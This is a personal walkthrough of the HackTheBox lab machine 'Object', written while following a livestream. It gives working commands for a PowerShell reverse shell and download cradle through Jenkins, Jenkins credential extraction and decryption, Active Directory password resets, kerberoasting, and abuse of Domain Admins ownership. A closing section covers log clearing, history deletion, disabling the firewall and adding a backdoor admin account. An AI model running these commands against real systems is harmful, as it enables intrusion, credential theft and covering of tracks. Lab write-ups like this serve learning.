

# Object Helped-Through

Name: Object
Date:  12/2/2023
Difficulty:  Hard
Goals:  
- Have fun and keep my head in AD hacking and Impacket etched slightly in my brain.
- Comment atleast once per section about Azure AD to revise
- Finish other Boxes and BRs again.
Learnt:
Beyond Root:
- Windows AD Patching
- Test my Windows Battleground/KOTH and invent another

As I have not looked into Azure AD in about month as I near doing the AZ-104 exam before getting back into OSCP after clearing up my Github, I still think that some of my efforts are never wasted having fun and relaxed hacking of a HTB box with [Alh4zr3d](https://www.youtube.com/watch?v=aYTmNU7vsmc). Although it seems to span out my additional work load, I am getting through some infrastructure issues that are just do or die in OSCP exam related scenarios that need to be worked through. With AZ-104 I am a less enthused to setup FTP and docker services to finish [[Kotarak-Helped-Through]] and [[Seventeen-Helped-Through]], which I will finish also today, but I a am side channel attacking them with focus being fun, AZ-104 and its relveance to AD. It is also the real-world AD I would face as a cloud admin or pentester or red/purple/blue teamer. Given that this is a 5 hour machine minus probably 50 minutes for the breaks Al will take and the introductionary setup I can get execise and get my other boxes service blockages sorted before finishing those. I am also getting to the point were I think with enough preparation I could atleast do KOTH against people panicing that maybe half as good as my given preparation and thought. I would like to have some more cool tricks for people that are way better than me to atleast stand some degree of a chance to not burn out on doing a couple a week after my OSCP. Stress conditioning seems like the way to go as I would like to work in high stress environments and be very very chill, but also be somewhat battle tested against talented people even if I lose.

## Recon

A brief look at Al and the length of this stream may indicate some serious malding. The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.


With all the standard recon scannning done ahead of time I am more following along adding to my other beyond roots.


Add the hostname to /etc/hosts
```bash
echo "10.129.96.147 object.htb" | sudo tee -a /etc/hosts 
```


Create a account


[Jenkins](https://www.jenkins.io/)  – an open source automation server which enables developers around the world to reliably build, test, and deploy their software.  [Jenkins](https://en.wikipedia.org/wiki/Jenkins_(software)) is an open source automation server. It helps automate the parts of software development related to building, testing, and deploying, facilitating continuous integration and continuous delivery. It is a server-based system that runs in servlet containers such as Apache Tomcat.

`Dashboard -> Create a job `

Automated Build pipelines,  CICD
`/Script` endpoint is script console - execute a reverse shell

We required to Web PrivEsc to access this functionality


[Exploitdb](https://www.exploit-db.com/exploits/46572) is vulnerablity for this version of Jenkins; this exploit did not show up in `Searchsploit` - tried the metasploit version - failed

## Exploit

Ping ourselves for the PoC


It runs , but fails


Console output is good.

User - ` Oliver :`; then I added `cmd /c`  to the ping command and change to a batch command. It failed as I `-c` requires administrative privileges! WHY!?!


Fixing the -c


Less Cthulu-esque filter evasion
```powershell
$a = New-Object System.Net.Sockets.TCPClient('10.10.14.139',31337);$b = $a.GetStream();[byte[]]$c = 0..65535|%{0};while(($i = $b.Read($c, 0, $c.Length)) -ne 0){;$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($c,0, $i);$f = (iex $d 2>&1 | Out-String );$g = $f + 'PS ' + (pwd).Path + '> ';$e = ([text.encoding]::ASCII).GetBytes($g);$b.Write($e,0,$e.Length);$b.Flush()};$a.Close()
# client -> a
# stream -> b
# bytes -> c
# data -> d
# sendbyte -> e
# sendback -> f
# sendback2 -> f2 -> g
```

```bash
# Al's
iconv -f ASCII -t UTF-16LE rshell.txt | base64 | tr -d "\n"
# Mine
iconv -f ASCII -t UTF-16LE rshell.txt | tr -d "\n" | base64 -w0 
```

```powershell
cmd /c powershell -nop -exec  bypass -w hidden -e JABhACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AUwBvAGMAawBlAHQAcwAuAFQAQwBQAEMAbABpAGUAbgB0ACgAJwAxADAALgAxADAALgAxADQALgAxADMAOQAnACwAMwAxADMAMwA3ACkAOwAkAGIAIAA9ACAAJABhAC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABiAC4AUgBlAGEAZAAoACQAYwAsACAAMAAsACAAJABjAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZAAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABjACwAMAAsACAAJABpACkAOwAkAGYAIAA9ACAAKABpAGUAeAAgACQAZAAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAGcAIAA9ACAAJABmACAAKwAgACcAUABTACAAJwAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACcAPgAgACcAOwAkAGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAGcAKQA7ACQAYgAuAFcAcgBpAHQAZQAoACQAZQAsADAALAAkAGUALgBMAGUAbgBnAHQAaAApADsAJABiAC4ARgBsAHUAcwBoACgAKQB9ADsAJABhAC4AQwBsAG8AcwBlACgAKQAAAA==
```
This failed for me:

Because of xml parsing. I did have a newline at the buttom of the script.

```powershell
cmd /c powershell -nop -exec  bypass -w hidden -e JABhACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AUwBvAGMAawBlAHQAcwAuAFQAQwBQAEMAbABpAGUAbgB0ACgAJwAxADAALgAxADAALgAxADQALgAxADMAOQAnACwAMwAxADMANwApADsAJABiACAAPQAgACQAYQAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAYgAuAFIAZQBhAGQAKAAkAGMALAAgADAALAAgACQAYwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYwAsADAALAAgACQAaQApADsAJABmACAAPQAgACgAaQBlAHgAIAAkAGQAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABnACAAPQAgACQAZgAgACsAIAAnAFAAUwAgACcAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAnAD4AIAAnADsAJABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABnACkAOwAkAGIALgBXAHIAaQB0AGUAKAAkAGUALAAwACwAJABlAC4ATABlAG4AZwB0AGgAKQA7ACQAYgAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYQAuAEMAbABvAHMAZQAoACkAAA==

```

Al wants to read firewall rules - not done this before on Windows! I pasued to try acouple of things 


We could upload a shell and execute in memory trick, but also encodeit in base64 and decoded it
```powershell
IEX(new-object system.net.webclient).downloadString(http://attackbox/IPT.ps1)
```
Encode 
```bash
iconv -f ASCII -t UTF-16LE psFileInfilAndExec.txt | tr -d "\n" | base64 -w0
SQBFAFgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAcwB5AHMAdABlAG0ALgBuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMQAzADkALwBJAFAAVAAuAHAAcwAxACcAKQAA
```

Jenkin Windows Batch script execution
```powershell
cmd /c powershell -nop -exec bypass -w hidden -e SQBFAFgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAcwB5AHMAdABlAG0ALgBuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMQAzADkALwBJAFAAVAAuAHAAcwAxACcAKQAA
```

I tried one argument and it complaint, tried two it complained again, went back 


Then I could not find my http server, which is really weird considering that we have PoC from the ping. I tried wget, not on the box, and curl is disabled


From 1:35 to : is an awesome monolog about Stuxnet, Flame, Eternal Blue, 0days, APTs and Hacking the Planet. Al seems to be malding hard at the powershell.

Deskop App Web Viewer is allowed. The `(65536)` is the Ports that it has successful probed.
```powershell
Name                  : {EF6E166B-E36D-4D2B-8E04-FBFD6960428F}
DisplayName           : Desktop App Web Viewer
Description           : Desktop App Web Viewer
DisplayGroup          : Desktop App Web Viewer
Group                 : @{Microsoft.Win32WebViewHost_10.0.17763.1_neutral_neutral_cw5n1h2txyewy?ms-resource://Windows.W
                        in32WebViewHost/resources/DisplayName}
Enabled               : True
Profile               : Domain, Private, Public
Platform              : {6.2+}
Direction             : Inbound
Action                : Allow
EdgeTraversalPolicy   : Allow
LooseSourceMapping    : False
LocalOnlyMapping      : False
Owner                 : S-1-5-21-4088429403-1159899800-2753317549-500
PrimaryStatus         : OK
Status                : The rule was parsed successfully from the store. (65536)
EnforcementStatus     : NotApplicable
PolicyStoreSource     : PersistentStore
PolicyStoreSourceType : Local


Name                  : {C5A26574-EBAB-4E3C-ABE0-05A1B8F65E0C}
DisplayName           : Desktop App Web Viewer
Description           : Desktop App Web Viewer
DisplayGroup          : Desktop App Web Viewer
Group                 : @{Microsoft.Win32WebViewHost_10.0.17763.1_neutral_neutral_cw5n1h2txyewy?ms-resource://Windows.W
                        in32WebViewHost/resources/DisplayName}
Enabled               : True
Profile               : Domain, Private, Public
Platform              : {6.2+}
Direction             : Inbound
Action                : Allow
EdgeTraversalPolicy   : Allow
LooseSourceMapping    : False
LocalOnlyMapping      : False
Owner                 : S-1-5-21-4088429403-1159899800-2753317549-1106
PrimaryStatus         : OK
Status                : The rule was parsed successfully from the store. (65536)
EnforcementStatus     : NotApplicable
PolicyStoreSource     : PersistentStore
PolicyStoreSourceType : Local
```


Advanced Persistent Tears as `certutil` does not connect for the first time in as many boxes as I have done by now. Al is malding hard still.
 

`ls` thinking about the file system WebView is cameras


Nishang has a version [ICMP reverse shell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellIcmp.ps1), but requires a python2 tool. Al is still malding from chat. [icmpdoor](https://github.com/krabelize/icmpdoor) loks cool though. Al is full mald by 2:16...then someone in the chat says he is not putting in the effort.  While Al vents I looked up 0xdf 

```powershell
powershell -c Get-NetFirewallRule -Direction Outbound -Enabled True -Action Block 
```

```powershell
powershell -c "Get-NetFirewallRule -Direction Outbound -Enabled True -Action Block |
Format-Table -Property 
DisplayName, 
@{Name='Protocol';Expression={($PSItem | Get-NetFirewallPortFilter).Protocol}},
@{Name='LocalPort';Expression={($PSItem | Get-NetFirewallPortFilter).LocalPort}}, @{Name='RemotePort';Expression={($PSItem | Get-NetFirewallPortFilter).RemotePort}},
@{Name='RemoteAddress';Expression={($PSItem | Get-NetFirewallAddressFilter).RemoteAddress}},
Enabled,
Profile,
Direction,
Action"
```

```powershell
powershell -c "Get-NetFirewallRule -Direction Outbound -Enabled True -Action Block | Format-Table -Property DisplayName,@{Name='Protocol';Expression={($PSItem | Get-NetFirewallPortFilter).Protocol}},@{Name='LocalPort';Expression={($PSItem | Get-NetFirewallPortFilter).LocalPort}},@{Name='RemotePort';Expression={($PSItem | Get-NetFirewallPortFilter).RemotePort}},@{Name='RemoteAddress';Expression={($PSItem | Get-NetFirewallAddressFilter).RemoteAddress}}, Enabled, Profile,Direction,Action"

```

```powershell
powershell -c Get-NetFirewallRule -Direction Outbound -Enabled True -Action Allow
```
I will screenshot each level and be methodically while remember how emotions and tireness kill hacking.


```powershell
type ../secret.key
type ../config.xml
type ../identity.key.enc
type ../jenkins.security.apitoken.ApiTokenPropertyConfiguration.xml
ls ../secrets
ls ../users
```


The reason I think this is kicker is that initial thought is reverse shell, upload, check connections


Also I appreciate Al suffering and the powering through


Al powered through this machine like absolute hero deomnstrating awesome determination, excellent insights into real world goings on beyond scope of CTFs. 


I am very glad he keeps streaming and very grateful.


I know could have just targeted each directory by name, but for pure data handling


The C:\\ 


Think Smart not Hard 
1. Check connection - ping , firewall rules
2. **Incrementally** read file system 
	1. Credentials
	2. File and Directory Permissions

```powershell
cmd /c powershell -c Get-Content -Path '../../secret.key'
cmd /c powershell -c Get-Content -Path '../../config.xml'
cmd /c powershell -c Get-Content -Path '../../identity.key.enc'
cmd /c powershell -c Get-Content -Path '../../jenkins.security.apitoken.ApiTokenPropertyConfiguration.xml'
cmd /c powershell -c ls '../../secrets'
cmd /c powershell -c ls '../../users'
```

Apperently someone modified the firewall rules which sound ultra beyond root material. Regardless
```
ac5757641b505503f44d2752ffa01e621bf5b935763ebc8adaa2e90cf85b13ac
```

We have a key, but no password in the config


But each user has a directory `admin_17207690984073220035` and there is a `master.key` amongst other data
```powershell
cmd /c powershell -c Get-Content -Path  ../../secrets/hudson.model.Job.serverCookie                                       
cmd /c powershell -c Get-Content -Path  ../../secrets/hudson.util.Secret                                                  
cmd /c powershell -c Get-Content -Path  ../../secrets/jenkins.model.Jenkins.crumbSalt                                     
cmd /c powershell -c Get-Content -Path  ../../secrets/master.key
cmd /c powershell -c ls  ../../users/admin_17207690984073220035
```

Results in a another config and more


Al goes quiet till but forwards the way with [hoto's jenkins decryptor](https://github.com/hoto/jenkins-credentials-decryptor), whihc has a neat download curl with sub shell uname to fetch the correct repository. Awesome!
```bash
curl -L \
  "https://github.com/hoto/jenkins-credentials-decryptor/releases/download/1.2.0/jenkins-credentials-decryptor_1.2.0_$(uname -s)_$(uname -m)" \
   -o jenkins-credentials-decryptor

chmod +x jenkins-credentials-decryptor
```

What Al does not explain as I found out with the errors is that my method of getting file content was inadequant. Al s using certutil a windows binary for certificate workflow to encode files to that be decode on his host machine. I have working alot I have moved forward to encoding shells more and this is the reminder that encoding exfiltrated data is good idea.  
```powershell
cmd /c powershell -c Get-Content -Path  C:\Users\oliver\AppData\Local\Jenkins\.jenkins\secrets\master.key 
cmd /c certutil -encode C:\Users\oliver\AppData\Local\Jenkins\.jenkins\secrets\hudson.util.Secret C:\Users\Oliver\hudson.txt 
cmd /c certutil -encode C:\Users\oliver\AppData\Local\Jenkins\.jenkins\Users\admin_17207690984073220035/config.xml C:\Users\Oliver\admin.txt 

cmd /c type C:\Users\Oliver\hudson.txt 
cmd /c type C:\Users\Oliver\admin.txt
```

Trial and error with the key being in hex...


Decode
```bash
echo -n "$base64" | tr -d '\n' | base64 -d > $file
# Vim
:set paste [ENTER ->  i -> [ctrl + shift + v]] 
:%s/\n//g

```

With the decryptor
```bash
curl -L \
  "https://github.com/hoto/jenkins-credentials-decryptor/releases/download/1.2.0/jenkins-credentials-decryptor_1.2.0_$(uname -s)_$(uname -m)" \
   -o jenkins-credentials-decryptor

chmod +x jenkins-credentials-decryptor

./jenkins-credentials-decryptor \
  -m master.key \
  -s hudson.util.Secret \
  -c adminconfig.xml \
  -o json
```

For some reason I had an issue with the checksum of the hudson.util.Secret
```powershell
powershell -c [convert]::ToBase64String((cat ..\..\secrets\hudson.util.Secret -Encoding byte)) 
```

For some reason my hudson.util.Secret is incorrect. The password would: ` oliver : c1cdfun_d2434 `

## Foothold


```powershell
Get-Process
```

Al's process is so simple: user permission, processes sees AD webservices


No meme he runs netstat!


[Apache Groovy](https://en.wikipedia.org/wiki/Apache_Groovy) Apache Groovy is a Java-syntax-compatible object-oriented programming language for the Java platform. It is both a static and dynamic language with features similar to those of Python, Ruby, and Smalltalk.

[Grape](http://www.groovy-lang.org/Grape) is a JAR dependency manager embedded into Groovy

## PrivEsc

Uploading SharpHound, downloading with the full path:
```powershell
PS> download C:\Users\oliver\Desktop\Sharphound\20230217142021_BloodHound.zip
```


BNut there is no smith user, but smith has a user directory. Al uploads PowerView which I have not used in a while.

```powershell
$SecPassword = ConvertTo-SecureString 'c1cdfun_d2434' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('OBJECT\oliver', $SecPassword)
```

Then create a secure string object for the password you want to set on the target user:

```powershell
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
```

Finally, use Set-DomainUserPassword, optionally specifying $Cred if you are not already running a process as OLIVER@OBJECT.LOCAL:

```powershell
Set-DomainUserPassword -Identity smith -AccountPassword $UserPassword -Credential $Cred
```

We are now smith


In bloodhound Smith has generic Write over Maria


[PowerView Tips by Harmj0y](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
[Harmj0y Cheatsheets](https://github.com/HarmJ0y/CheatSheets)

GenericWrite - the [iredteam Generic requires log off and on](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces)

Upload PowerView.ps1 

```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('OBJECT\smith', $SecPassword)
```

Then, use Set-DomainObject, optionally specifying $Cred if you are not already running a process as SMITH@OBJECT.LOCAL:

```powershell
# The service principle name does not matter 
Set-DomainObject -Credential $Cred -Identity smith -SET @{serviceprincipalname='OBJECT/maria'}
```

After running this, you can use [Get-DomainSPNTicket](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainSPNTicket/#get-domainspnticket) as follows:

```powershell
Get-DomainSPNTicket -Credential $Cred -SPN 'Object/maria'  | fl
```

The recovered hash can be cracked offline using the tool of your choice. Cleanup of the ServicePrincipalName can be done with the Set-DomainObject command:

```powershell
Set-DomainObject -Credential $Cred -Identity maria -Clear serviceprincipalname
```

Al decides to upload Rubeus so I will do both - [pause](https://www.youtube.com/watch?v=aYTmNU7vsmc&t=10944s).


Researched and kerberoasted. 0xdf and Al were not able to do this!


Rubeus method

```bash
curl -L https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/Rubeus.exe -o Rubeus.exe
```

Use Rubeus
```powershell
.\Rubeus.exe kerberoast /creduser:OBJECT.LOCAL\smith /credpassword:Password123! /nowrap
```


The hash is uncrackable... Al's mood was getting to me so I checked the [0xdf writeup](https://0xdf.gitlab.io/2022/02/28/htb-object.html#shell-as-oliver). This section seems odd.


Al makes this out as being stupid, but it is actually quiet cool. We need to make a logon script, but without forcing a logoff as there seems to be a logon script running continiuously. Neither Al or 0xdf explain why or how. I will look into this in Beyond Root as want to understand how I would have found this. Rather than make some leap that I have GenericWrite, I have Hash that is uncrackable... No PineapplePen - I hate that song and I hate the CTFy well if only you had made this massive guess, becuase the negative space + here is something cool to upset expectations of the constraint of a CTF are... - no reboots logoff/logon. This section is both cool and obtuse bleeding into the next dimension of facepalm. Also bet Al winges about LibreOffice again lmao.

Abuse GenericWrite to 
```powershell
cd C:\programdata
echo "ls \users\maria\ > \programdata\out" > cmd.ps1
Set-DomainObject -Identity maria -SET @{scriptpath="C:\\programdata\\cmd.ps1"}
type out
```


The name of the box now starts to make alot of sense
```powershell
echo "ls \users\maria\documents > \programdata\out; ls \users\maria\desktop\ > \programdata\out2" > cmd.ps1
type out2
```


```powershell
echo "copy \users\maria\desktop\Engines.xls \programdata\" > cmd.ps1
```


Maria's fine collection


Thankfully Al has LibreOffice.

## PrivEsc Maria to Domain Admin

With the  `W3llcr4ft3d_4cls`


Maria Has WriteOwnerShip over the Domain Admin


To change the ownership of the object, you may use the Set-DomainObjectOwner function in PowerView.

You may need to authenticate to the Domain Controller as MARIA@OBJECT.LOCAL if you are not running a process as that user. To do this in conjunction with Set-DomainObjectOwner, first create a PSCredential object (these examples comes from the PowerView help documentation):

```powershell
$SecPassword = ConvertTo-SecureString 'W3llcr4ft3d_4cls' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('OBJECT.LOCAL\maria', $SecPassword)
```

Then, use Set-DomainObjectOwner, optionally specifying $Cred if you are not already running a process as MARIA@OBJECT.LOCAL:
```powershell
Set-DomainObjectOwner -Credential $Cred -TargetIdentity "Domain Admins" -OwnerIdentity maria
```
This will not work and neither will:
```powershell
Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity 'maria'
```

I `diff`-ed both Empire and [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) versions of Powerview and tried the PowerSploit version instead. This then worked instantly as the DomainSearching for the Empire Version is broken.
```powershell
Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity 'maria'
```

To abuse ownership of a user object, you may grant yourself the AddMember privilege. This can be accomplished using the Add-DomainObjectAcl function in PowHiding binaries
```powershll
attrib +h mimikatz.exe
```erView.

```powershell
# Set owner 
Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity 'maria'
# Add of ACL for new owner
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity maria -Rights All
# Add user as member of the group
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'maria'
# Reset ownership 
```

Remember to compare your tooling and Bloodhound quoted tool syntax can be wrong

## Beyond Root

[Persistence from PLATT](https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/Methodology%20and%20Resources/Windows%20-%20Persistence/#simple-user)

Hiding binaries
```powershll
attrib +h mimikatz.exe
```

Some Cleanup stuff
```powershell
Remove-Item -Recurse -Force $Directory
del <path>\*.* /a /s /q /f

# RTFM
# Clear System and Security Logs
cmd.exe /c wevtutil.exe cl System
cmd.exe /c wevtutil.exe cl Security

# I am Jackoby
# empty temp folder
rm $env:TEMP\* -r -Force -ErrorAction SilentlyContinue

# delete run box history
reg delete HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU /va /f

# Delete powershell history
Remove-Item (Get-PSreadlineOption).HistorySavePath

# Empty recycle bin
Clear-RecycleBin -Force -ErrorAction SilentlyContinue
```

#### Modify a Firewall Rule

I just turned off the firewall as elevated Maria.
```powershell
# Check Profile
netsh advfirewall show currentprofile

# Turn off the Firewall
NetSh Advfirewall set allprofiles state off

# Modify a Firewall Rule for a program
netsh advfirewall firewall add rule name="<Rule Name>" program="<FilePath>" protocol=tcp dir=in enable=yes action=allow profile=Private
netsh advfirewall firewall add rule name="<Rule Name>" program="<FilePath>" protocol=tcp dir=out enable=yes action=allow profile=Private
# Delete a rule
netsh.exe advfirewall firewall delete rule "<Rule Name>"_
```
[test](https://www.itninja.com/blog/view/how-to-add-firewall-rules-using-netsh-exe-advanced-way)

####  KOTH/BGs, Meta

I think the ultimate meta would be to KOTH logging and exfiltrating the logs monitoring the other attackers and defender action for the TTPs.
https://github.com/UberGuidoZ
```powershell
$timestamp = get-date 
$domain = $env:USERDNSDOMAIN
echo " $domain | $timestamp " 
get-scheduledtask | findstr /v Disabled
```

RedTeamFieldManual is a must buy!
```powershell
# Check the password requirements before!
dsadd user "CN=John,CN=Users,DC=object,DC=local" -samid John -pwd johnspassword123! -display "John" -pwdneverexpires yes -memberof "DC=Domain Admins,CN=Users,DC=object,DC=local"
```

BlueTeamFieldManual is a must buy! - and 0xdf, @MalwareJake 

Use `netsh` like `wireshark` to monitor traffic to the box you are defending - @MalwareJake 
```powershell
netsh trace start capture=yes
netsh trace stop
```

This was to find the logonscript used the "simulate" the maria user logging on
```powershell
# Hunt for Schedule Task persistence
get-scheduledtask | findstr /v Disabled
# Query the suspicious task
$task = get-scheduledtask -taskname <name>
$task | fl
# Query execution path
$task.Actions.Execute | fl
# Query who it will run as
$task.Principal | fl
# Remove or Assimulate
```

Assimilate a schduledtask
```powershell
# Find task and its excution path to hijack
get-scheduledtask | findstr /v Disabled
$task = get-scheduledtask -taskname <name>
$task | fl
$task.Actions.Execute | fl
$content = Get-Content -Path 'C:\file'
$newContent = $content -replace '<adversary-ip>', '<your-ip>'
$newContent | Set-Content -Path 'C:\file'
```

#### Powershell-For-Hackers

Checking out I-Am-Jackoby - https://github.com/I-Am-Jakoby/PowerShell-for-Hackers mentioned during the stream. Has some functionality. Also a contributor was [UberGuidoZ](https://github.com/UberGuidoZ) who makes FlipperZero and OMG-Payloads


#### Ping Shell

[Bdamele](https://github.com/bdamele/icmpsh) ICMP shell

[HTB like pwnbox](https://github.com/theGuildHall/pwnbox)

#### Additional Finds

[Pwning Jenkins](https://github.com/gquere/pwn_jenkins)

From [ARZ101 writeup](https://arz101.medium.com/hackthebox-object-b7c4abbb060a)
```powershell
$env:USERDNSDOMAIN
```

```powershell
get-scheduledtask | findstr /v Disabled
```